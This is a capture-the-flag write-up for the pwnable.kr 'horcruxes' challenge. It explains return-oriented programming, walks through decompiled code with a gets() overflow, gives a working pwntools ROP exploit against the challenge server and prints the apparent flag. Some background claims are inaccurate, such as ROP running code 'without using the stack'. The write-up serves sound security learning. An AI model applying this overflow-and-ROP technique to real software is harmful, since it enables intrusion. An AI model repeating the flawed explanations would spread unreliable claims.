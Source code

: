 # input

## Description

horcruxes - 7 pt

> Voldemort concealed his splitted soul inside 7 horcruxes. <br>
> Find all horcruxes, and ROP it! <br>
> author: jiwon choi <br> <br>
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### ROP

ROP stands for Return Oriented Programming. It is a technique that allows us to execute code without using the stack, based on the fact that the return address of a function is stored in the stack.

Basically, ROPing is done by overwriting the return address of a function, with some other address that we want to jump to. 

It is important to note that modern calling conventions require that the stack is aligned to 16 bytes. However, when we jump from one function, say `f`, to another - `g`, using ROP, we don't push a return address to the stack. And so, when entering `g`, after pushing the old base pointer - the stack will not be aligned to 16 bytes.

We can solve this problem by overwriting 8 more bytes after the return address. We will overwrite the **return address** with the address of *another* (or the same) return instruction, and overwrite the **next 8/4 bytes** with the address of the function we want to jump to.

The program will jump to a return instruction, and from there to the function we want to jump to. Thus, 2 pop instruction will be executed, and the stack will be aligned to 16 bytes. 


### Exploit

In this challenge we are given a binary, and a readme file that explains where to connect to. The binary is a 32 bit ELF file, and we can see that it has no canary.

Here are the (relevant) results of decompiling the binary:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ...

  init_ABCDEFG();
  
  ...
  
  return ropme();
}
```

```c
int init_ABCDEFG()
{
  ...
  a = -559038737 * rand() % 0xCAFEBABE;
  b = -559038737 * rand() % 0xCAFEBABE;
  c = -559038737 * rand() % 0xCAFEBABE;
  d = -559038737 * rand() % 0xCAFEBABE;
  e = -559038737 * rand() % 0xCAFEBABE;
  f = -559038737 * rand() % 0xCAFEBABE;
  g = -559038737 * rand() % 0xCAFEBABE;
  result = f + e + d + c + b + a + g;
  sum = result;
  return result;
}
```

```c
int ropme()
{
  int v1; // [esp-Ch] [ebp-84h]
  int v2; // [esp-8h] [ebp-80h]
  int v3; // [esp-4h] [ebp-7Ch]
  char v4[100]; // [esp+4h] [ebp-74h] BYREF
  int v5; // [esp+68h] [ebp-10h] BYREF
  int v6; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v5);
  getchar();
  if ( v5 == a )
  {
    A();
  }
  else if ( v5 == b )
  {
    B();
  }

  ...

  else if ( v5 == g )
  {
    G();
  }
  else
  {
    printf("How many EXP did you earned? : ");
    gets(v4);
    if ( atoi(v4) == sum )
    {
      v6 = open("flag", 0);
      v4[read(v6, v4, 100)] = 0;
      puts(v4);
      close(v6);
      exit(0, v1, v2, v3);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

The porgram starts by calling `init_ABCDEFG`, which initializes the variables `a`, ..., `g` with random values. Then, it calls `ropme`. There, we are asked to choose a number. If it is equal to one of the variables, we will jump to the function `A`, ..., `G` respectively. Otherwise, we will be asked to enter another number. If it is equal to the sum of the variables, we will get the flag.

The functions `A`, ..., `G` are all the very similar. They all print a message, and the value of `a`, ..., `g` respectively.

At a first glance, it seems that the ROP is very simple - we overflow on `gets(v4)` and overwrite the return address jumping to the `v6 = open("flag", 0);` line. However, there is a problem - in the `ropme` function, all of the addresses are of the format `0x80a0XXX`. Since `0a` is also the ascii code of `\n`, we can't use it in our payload.

And so, the solution is to jump to each and every one of the functions `A`, ..., `G`, sum the values of `a`, ..., `g`, and then jump to the call to `ropme` from the `main` function (since we can't jump anywhere inside `ropme`). Then, we will insert the sum and get the flag.

As we mentioned before, we need to consider stack alignment. Everytime we want to jump anywhere, we must first jump to a return instruction, and then to the address we want to jump to.
Here is the exploit:

```python
from pwn import *
import numpy as np
import re

con = remote('pwnable.kr', 9032)

con.sendline(b'1\n' + b'\x41'*100 + b'\x42'*4*5 + b'\x69\xfe\x09\x08' + 
            b'\x4b\xfe\x09\x08' + b'\x69\xfe\x09\x08' + b'\x6a\xfe\x09\x08' +
            b'\x69\xfe\x09\x08' + b'\x89\xfe\x09\x08' + b'\x69\xfe\x09\x08' +
            b'\xa8\xfe\x09\x08' + b'\x69\xfe\x09\x08' + b'\xc7\xfe\x09\x08' +
            b'\x69\xfe\x09\x08' + b'\xe6\xfe\x09\x08' + b'\x69\xfe\x09\x08' +
            b'\x05\xff\x09\x08' + b'\x69\xfe\x09\x08' + b'\xfc\xff\x09\x08')

con.recvuntil(b'Select Menu:')

horcruxes = con.recvuntil(b'Select Menu:')
soul_parts = re.findall(b'EXP \+([0-9-]*)', horcruxes)
soul = np.int32(np.sum([np.int32(_.decode()) for _ in soul_parts]))

con.sendline(b'1')
con.sendline(str(soul).encode() + b'\x00')

con.interactive()
```

```
Magic_spell_1s_4vad4_K3daVr4!
